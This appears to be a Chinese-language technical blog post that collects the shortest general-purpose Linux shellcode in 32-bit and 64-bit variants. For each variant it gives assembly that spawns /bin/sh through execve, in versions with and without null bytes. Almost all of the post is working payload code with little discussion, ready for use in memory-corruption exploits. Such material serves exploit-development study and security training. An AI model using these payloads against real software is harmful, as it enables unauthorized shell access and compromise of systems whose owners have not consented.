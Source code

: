 ```yaml
---
layout:     post
title:      "Linux ShellCode"
subtitle:   "最短的通用shellcode编写"
date:       2018-11-16 12:00:00
author:     "Chris"
catalog: true
tags:
    - 笔记
    - ShellCode
    - Linux
 
---
```


在寄存器都是非理想值情况下(shellcode可根据环境具体触发时寄存器的值做长度调整)，我本着最优通用的原则，整理了Linux下32位和64位最短通用shellcode的编写

## 32位

有"\x00"最短 20 byte

	shellcode= """
	xor ecx,ecx
	mul ecx
	mov al,0xb
	push 0x68732f   
	push 0x6e69622f   
	mov ebx,esp
	int 0x80
	"""
    shellcode=asm(shellcode)

无"\x00"最短 21 byte


	xor ecx,ecx
	mul ecx
	push eax
	mov al,0xb
	push 0x68732f2f   
	push 0x6e69622f   
	mov ebx,esp
	int 0x80


标准shellcode 23 byte

	xor ecx,ecx
	xor edx,edx
	push edx
	push 0x68732f2f
	push 0x6e69622f
	mov ebx,esp
	xor eax,eax
	mov al,0xB
	int 0x80

## 64位


最短有"\x00" 22 byte

	xor rsi,rsi
	mul esi
	mov rbx,0x68732f6e69622f
	push rbx
	push rsp
	pop rdi
	mov al, 59
	syscall

最短无"\x00" 23 byte

	xor rsi,rsi
	mul esi
	push rax
	mov rbx,0x68732f2f6e69622f
	push rbx
	push rsp
	pop rdi
	mov al, 59
	syscall

标准shellcode 31 byte

	xor    rdi,rdi
	xor    rsi,rsi
	xor    rdx,rdx
	xor    rax,rax
	push   rax
	mov rbx,0x68732f2f6e69622f
	push   rbx
	mov    rdi,rsp
	mov    al,0x3b
	syscall 